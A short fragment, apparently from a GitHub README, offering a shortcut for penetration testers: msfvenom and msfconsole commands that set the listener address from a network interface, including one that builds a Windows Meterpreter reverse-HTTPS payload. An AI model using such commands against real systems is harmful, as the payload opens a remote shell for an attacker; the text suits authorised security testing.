 msfvenom -p windows/meterpreter/reverse_https lhost=\`getip eth0\` ...

 or even better...

msfconsole -x "set lhost `getip eth0`"

For us lazy folks...

Just paste the contents into a bash terminal
